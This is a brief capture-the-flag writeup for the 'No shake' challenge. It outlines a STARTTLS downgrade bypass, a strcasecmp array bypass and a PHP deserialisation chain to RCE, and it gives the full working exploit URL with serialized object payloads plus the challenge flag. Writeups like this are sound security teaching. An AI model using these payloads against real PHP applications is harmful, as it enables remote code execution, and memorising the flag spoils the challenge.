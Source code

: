 # Challenge Name
No shake

### Challenge Description
The admin does not like to shake hands, virus!

### Short Writeup
The initial request requires the Cmd parameter to be added with a buffer value with length 8 to bypass the mitm attack on STARTTLS (STARTTLS downgrade), all characters and numbers are blacklisted, so we replace with unicodes which would give total length as 8.
Cmd=								

The final page requires the key to begin, the first problem is strcasecmp bypass by using arrays, second problem is deserialisation with reference variable, third problem is deserialisation to RCE to retrieve the flag. 
final.php?key=sT4yH0M3&abc[]=sasa&def=O:8:"stdClass":2:{s:4:"flag";N;s:3:"xyz";R:2;}&ghi=O:4:"Dogs":1:{s:3:"obj";O:4:"Cats":1:{s:3:"cmd";s:13:"cat%20final.php";}}


### Challenge Author
m0n574

#### Flag
inctf{Rc3_n_d0wngr4d35_d0n7_g0_W3Ll:}
